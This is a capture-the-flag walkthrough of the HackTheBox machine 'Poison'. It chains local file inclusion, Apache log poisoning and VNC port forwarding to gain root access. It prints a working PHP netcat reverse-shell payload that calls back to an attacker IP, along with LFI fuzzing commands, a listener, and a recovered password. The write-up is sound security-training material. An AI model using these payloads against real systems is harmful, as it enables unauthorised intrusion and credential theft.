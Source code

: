 # Poison

## Nmap

```
sudo nmap 10.10.10.84 -p- -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Navigating to the root page on port 80 we are presented with a test page for the testing of PHP scripts.

![http://10.10.10.84/](<../../../.gitbook/assets/image (1600) (1).png>)

Entering a filename of test in the 'Scriptname' box and submitting shows an error in finding the file. We see from the URL at the top of the browser the parameter on browse.php? where '?file=test'.

![http://10.10.10.84/browse.php?file=test](<../../../.gitbook/assets/image (1603).png>)

A simple check for LFI using the URL 10.10.10.84/browse.php?file=/etc/passwd reveals the /etc/passwd file to us.

![http://10.10.10.84/browse.php?file=/etc/passwd](<../../../.gitbook/assets/image (1604).png>)

From here I was unable to find anything of interest manually and was unable to bruteforce the user 'charix' who we have obtained from /etc/passwd. From her we can fuzz LFI files with Wfuzz using the wordlist linked below:

{% file src="../../../.gitbook/assets/lfi (2).txt" %}
LFI List
{% endfile %}

We can then run Wfuzz with the syntax below:

```
wfuzz -u 'http://10.10.10.84/browse.php?file=FUZZ' -w lfi.txt --hl 4
```

![](<../../../.gitbook/assets/image (1605).png>)

Checking [http://10.10.10.84/browse.php?file=/var/log/httpd-access.log](http://10.10.10.84/browse.php?file=/var/log/httpd-access.log) shows we can see the Apache log files as per the above results from Wfuzz.

![http://10.10.10.84/browse.php?file=/var/log/httpd-access.log](<../../../.gitbook/assets/image (1606).png>)

Given the box name 'Poison' and the fact we have LFI as well as being able to view the Apache log files we can attempt to gain shell through poisoning the logs.

I opened Burpsuite and caught a request to the log files. As we can use LFI to execute any PHP code in the log files I inserted a PHP exec netcat reverse shell into the user-agent field in the request.

```
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 80 >/tmp/f') ?>
```

![Burpsuite](<../../../.gitbook/assets/image (1607).png>)

After sending the request set up a `netcat` listener and then use curl to perform LFI on the log files.

`netcat`:

```
sudo nc -lvp 80
```

Then executing curl.

```
curl http://10.10.10.84/browse.php?file=/var/log/httpd-access.log
```

This will give us shell access onto the target machine.

![](<../../../.gitbook/assets/image (1608).png>)

Using `ls -la` shows we have a pwdbackup.txt file in the current directory.

![](<../../../.gitbook/assets/image (1609).png>)

The contents of this file is shown below:

![](<../../../.gitbook/assets/image (1610).png>)

I used the following website to decode the string 13 times: [https://www.base64decode.org/](https://www.base64decode.org). Before retrieving the end result of: `Charix!2#4%6&8(0`

Knowing that charix is a user on the target machine and that SSH is open we can try the credentials.

![](<../../../.gitbook/assets/image (1611).png>)

Checking the current directory we have a user flag and a secret.zip. I then used the command below with `scp` to transfer the secret.zip file back to my attacking machine.

```
scp charix@10.10.10.84:/home/charix/secret.zip ./
```

![](<../../../.gitbook/assets/image (1613).png>)

After this completed I attempted to extract the secret.zip and was prompted for a password. I used charix's password in hope for password reuse and was able to open the zip file. Attempting to read the contents of secret.zip shows we can only see a string that is not readable.

![](<../../../.gitbook/assets/image (1614).png>)

Moving on and doing some more basic manual enumeration we have an interesting process running in the context of the root user.

```
ps aux | grep root
```

![](<../../../.gitbook/assets/image (1612).png>)

The root account is currently running Xvnc. We can see from the image above we cannot see all the output of `ps` so we need to run again and allow for more columns to view all information.

```
ps -auxww | grep Xvnc
```

![](<../../../.gitbook/assets/image (1615).png>)

We can see from the above the service appears to be using port 5901. Looking back at the initial `nmap` scan this port will need forwarding so we can access it.

As we have SSH credentials we can use this to forward the local port of 5901 to a port on our attacking machine.

```
ssh -L 4444:127.0.0.1:5901 charix@10.10.10.84
```

Once connected again we can run `nmap` against our local port of 4444 to see if this has worked.

![](<../../../.gitbook/assets/image (1616).png>)

Kali comes preinstalled with `vncviewer` which we will use in an attempt to connect to VNC.

```
vncviewer 127.0.0.1::4444 
```

We see once connected we are prompted for a password. I tried charix's password and a few common easy ones with no luck.

![](<../../../.gitbook/assets/image (1617).png>)

Looking at the `-h` options for `vncviewer` we notice we can provide a password file. I tried the secret.txt from earlier and was given access.

```
vncviewer 127.0.0.1::4444 -passwd ~/secret   
```

![](<../../../.gitbook/assets/image (1618).png>)
